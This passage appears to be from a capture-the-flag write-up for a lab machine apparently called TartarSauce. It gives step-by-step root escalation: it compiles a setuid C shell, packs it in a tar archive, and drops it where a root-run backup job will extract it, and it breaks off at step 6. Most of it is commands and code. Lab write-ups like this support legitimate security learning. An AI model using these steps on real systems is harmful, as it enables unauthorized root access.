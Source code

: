 Steps to get root as follows:

1\. On attacker machine, create simple setuid c file and compile as 32bit binary

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    setuid(0); 
    setgid(0); 
    system("/bin/sh");
}
```

```
└─$ sudo gcc -m32 setuid_sh2.c -o priv

```

2\. Create directory: /tartarsauce/var/www/html as root

```
└─$ sudo mkdir -p tartarsauce/var/www/html

└─$ cd tartarsauce
```

3\. Copy setuid into directory, and sudo chmod ug+s setuid --must setuid as root and root must own file

```
└─$ sudo cp priv var/www/html

└─$ sudo chmod ug+s var/www/html/priv

└─$ ls -la var/www/html              
total 24
drwxr-xr-x 2 root root  4096 Nov  8 06:53 .
drwxr-xr-x 3 root root  4096 Nov  8 06:52 ..
-rwsr-sr-x 1 root root 15192 Nov  8 06:53 priv

```

4\. Tar the var/ directory

```
└─$ sudo tar -zcvf privesc.tar.gz var 
var/
var/www/
var/www/html/
var/www/html/priv

```

5\. Transfer tar file to /var/tmp on target

6\. Wait until backup job runs -- "date;ls -a" OR if you have a fully interactive shell "watch -n 1 systemctl list-timers"

